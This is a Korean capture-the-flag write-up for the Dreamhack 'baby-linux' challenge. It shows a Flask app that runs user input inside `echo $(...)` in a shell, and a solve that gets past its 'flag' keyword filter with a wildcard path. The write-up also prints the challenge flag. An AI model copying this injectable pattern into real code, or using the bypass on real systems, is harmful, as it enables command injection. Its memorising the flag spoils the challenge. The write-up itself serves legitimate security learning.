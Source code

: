 ## baby-linux
> 문제 URL: https://dreamhack.io/wargame/challenges/837  
> 리눅스 명령어를 실행하는 웹 서비스가 작동하고 있습니다. 해당 웹 서비스의 코드가 첨부파일로 주어집니다. flag.txt 파일을 찾아 출력하여 플래그를 획득하세요!

### `echo $(구문)` 개요

`echo $(구문)`은 **명령 치환 (command substitution)**을 사용하여 `$(...)` 안의 명령을 실행하고 그 결과를 `echo` 명령으로 출력하는 방식입니다.

### 사용법:
```bash
echo $(명령)
```

### Solve
1. `echo $(구문)` 내에 `ls` 명령을 통해 내부 확인
```bash
total 32 drwxr-xr-x 5 chall chall 4096 Apr 21 2023 . 
dr-xr-xr-x 1 root root 4096 Feb 23 02:26 .. 
-rwxr-xr-x 1 root root 884 Apr 21 2023 app.py 
drwxr-xr-x 3 root root 4096 Apr 21 2023 dream 
-rw-r--r-- 1 root root 34 Apr 21 2023 hint.txt 
-rw-r--r-- 1 root root 5 Apr 21 2023 requirements.txt 
drwxr-xr-x 5 root root 4096 Apr 21 2023 static 
drwxr-xr-x 2 root root 4096 Apr 21 2023 templates
```
2. `cat hint.txt`를 통해 `flag.txt`의 위치 알아냄
```bash
Where is Flag? ./dream/hack/hello
```

3. `app.py` 코드를 보면 `flag` 문자열이 커맨드에 포함된 경우 `No!` 출력함
```python
import subprocess
from flask import Flask, request, render_template

APP = Flask(__name__)

@APP.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        user_input = request.form.get('user_input')
        cmd = f'echo $({user_input})'
        if 'flag' in cmd:
            return render_template('index.html', result='No!')

        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('index.html', result=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('index.html', result='Timeout')
        except subprocess.CalledProcessError:
            return render_template('index.html', result='Error')

    return render_template('index.html')

if __name__ == '__main__':
    APP.run(host='0.0.0.0', port=8000)
```

4. `cat ./dream/hack/hello/*.txt`를 통해 flag 획득
```bash
DH{671ce26c70829e716fae26c7c71a33823feb479f2562891f64605bf68f60ae54}
```